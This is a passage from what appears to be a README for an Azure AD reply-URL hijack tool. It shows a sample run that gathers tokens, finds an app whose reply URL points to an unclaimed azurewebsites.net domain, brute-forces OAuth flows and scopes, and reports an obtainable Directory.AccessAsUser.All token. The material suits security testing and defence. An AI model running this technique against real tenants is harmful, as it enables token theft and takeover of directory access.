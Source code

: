 - **Reporting step**: summary of all the applications vulnerable to the reply URL hijack, plus its accepted scopes.

```
python reply-url-brute.py --appId 89efd99e-0ec9-4bcf-9e5c-74c31b45f181

[*] Loading tenant informacion and cookies from config.yaml file: config.yaml
[*] Tenand ID: a92a42cd-bf8c-46ba-aa4e-64cbc9e030d9
[*] Subscription ID: 80110e3c-3ec4-4567-b06d-7d47a72562f5

STEP: Get tokens for MS Graph, APP MGMT and AAD
[*] Send Authorize for scope: https://graph.microsoft.com/Directory.AccessAsUser.All
[*] Send Token request for scope: https://graph.microsoft.com/Directory.AccessAsUser.All
[*] Send Authorize for scope: https://graph.windows.net/user_impersonation
[*] Send Token request for scope: https://graph.windows.net/user_impersonation
[*] Send Authorize for scope: https://appmanagement.activedirectory.microsoft.com/user_impersonation
[*] Send Token request for scope: https://appmanagement.activedirectory.microsoft.com/user_impersonation

STEP: Single AppId mode
[*] Quering AppId
[+] Response: 200, Service Principals: 1

STEP: Query reply URLs via Windows Graph
[*] Reply URLs from Windows Graph, SP: app-demo: +0

RECAP: The appId could be found:
[*] app-demo, 89efd99e-0ec9-4bcf-9e5c-74c31b45f181, replyUrls:
    https://localhost
    https://idontexist23843.azurewebsites.net

STEP: Get tokens for ARM
[*] Send Authorize for scope: https://management.azure.com/.default
[*] Send Token request for scope: https://management.azure.com/.default

STEP: Starting DNS resolution of reply URLs
[*] Checking availability for idontexist23843.azurewebsites.net: Available!
[+] Domain not found, take over: Yes,   SP: app-demo, https://idontexist23843.azurewebsites.net
[*] SP with missing reply URLs + take over (Yes, Maybe): 1
[*] SP with missing reply URLs but no take over: 0, this won't be checked

STEP: Starting flow bruteforce
[*] app-demo, https://idontexist23843.azurewebsites.net, scope: https://graph.microsoft.com/User.Read
[*] Authorize request, Web: NO, response_type 'token' not enabled, implicing grant disabled
[*] Authorize request, SPA: Maybe, needs user consent
...
[*] Total vulnerable Apps: 1

STEP: Starting scope bruteforcing
[*] Scopes to bruteforce: 17
[*] SP: app-demo, https://idontexist23843.azurewebsites.net (SPA/Desktop), scope: https://graph.microsoft.com/.default
[*] Authorize request, SPA: Auth code found
[*] Token request, SPA (origin): YES!
[+] Found vulnerable reply URL:
      Type: SPA
      Display name: app-demo
      Appid: 89efd99e-0ec9-4bcf-9e5c-74c31b45f181
      Reply URL: https://idontexist23843.azurewebsites.net
      Token resource: https://graph.microsoft.com
      Token scope: Directory.AccessAsUser.All

```